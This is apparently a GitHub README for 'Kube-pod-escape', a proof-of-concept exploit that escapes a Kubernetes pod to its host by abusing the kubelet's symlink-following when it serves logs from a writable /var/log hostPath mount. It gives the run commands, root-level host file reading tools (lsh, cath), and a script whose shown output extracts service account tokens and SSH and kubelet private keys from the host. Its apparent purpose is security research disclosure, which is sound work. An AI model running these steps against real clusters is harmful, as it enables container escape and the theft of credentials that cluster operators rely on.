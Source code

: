 # Kubelet Exploit For /var/log Mount

Kube-pod-escape is a POC for an exploit on the symlink following behaviour of logs files serving in the kubelet, in addition with a pod that has a write hostPath mount to /var/log.  
This POC shows the outcome of a pod which uses that mount, and how it can escape to the host machine.  
Further read on this discovery can be done on the following [blog post](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)

[![asciicast](https://asciinema.org/a/260371.svg)](https://asciinema.org/a/260371?speed=2)
This repository contains all files and related code for running this exploit.  


## Prerequisites
A Kubernetes cluster, 
Without restriction for retrieving logs with `kubectl logs <pod>`


## Run the exploit

First, create the pod by:
    
```bash
$ kubectl create -f escaper.yml
pod "escaper" created
```

After the pod was created, exec into the escaper pod.
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ lsh
Usage: [cath|lsh] <host_path>
```
### lsh
Works like ls, but using root access on the host machine.
### cath
Works like cat, but using root access on the host machine.

Example:
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ lsh /proc
1/
10/
10034/
10042/
10047/
....
```

## Extract Sensitive Data
In addition to the given lsh and cath commands, Inside the `~/exploit` folder, there's a python script, which automatically locates and downloads private key files from the host, as well as kubernetes service account tokens.  
_(to find tokens, the script searches the /var/lib/kubelet/pods folder. this way it can read the mounted .token files for each pod that runs on the host)_

## Run the script
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ python find_sensitive_files.py
[*] Got access to kubelet /logs endpoint
[+] creating symlink to host root folder inside /var/log

[*] fetching token files from host
[+] extracted hostfile: /var/lib/kubelet/pods/6d67bed2-abe3-11e9-9888-42010a8e020e/volumes/kubernetes.io~secret/metadata-agent-token-xjfh9/token

[*] fetching private key files from host
[+] extracted hostfile: /home/ubuntu/.ssh/private.key
[+] extracted hostfile: /etc/srv/kubernetes/pki/kubelet.key
...
```
Token Files are downloaded to: `/root/exploit/host_files/tokens`  
Key Files are downloaded to: `/root/exploit/host_files/private_keys`

